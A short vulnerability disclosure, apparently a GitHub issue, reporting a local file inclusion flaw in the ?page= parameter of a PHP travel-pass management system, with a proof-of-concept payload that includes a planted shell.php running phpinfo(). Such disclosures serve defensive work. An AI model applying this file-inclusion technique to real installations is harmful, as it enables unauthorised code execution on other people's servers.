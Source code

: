 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: ip/ctpms/?page=

Vulnerability location: ip/ctpms/?page=, page

Payload: ip/ctpms/?page=shell

![image](https://user-images.githubusercontent.com/54017627/167079649-85ba6589-6285-4ecb-8ef5-974228634146.png)


We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/167079465-9c835c77-4cf0-43d3-8656-c02a16044228.png)

And visit http://ip/ctpms/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/167079525-fefac36b-fd4e-4ffa-bf73-be5f03cb31a4.png)

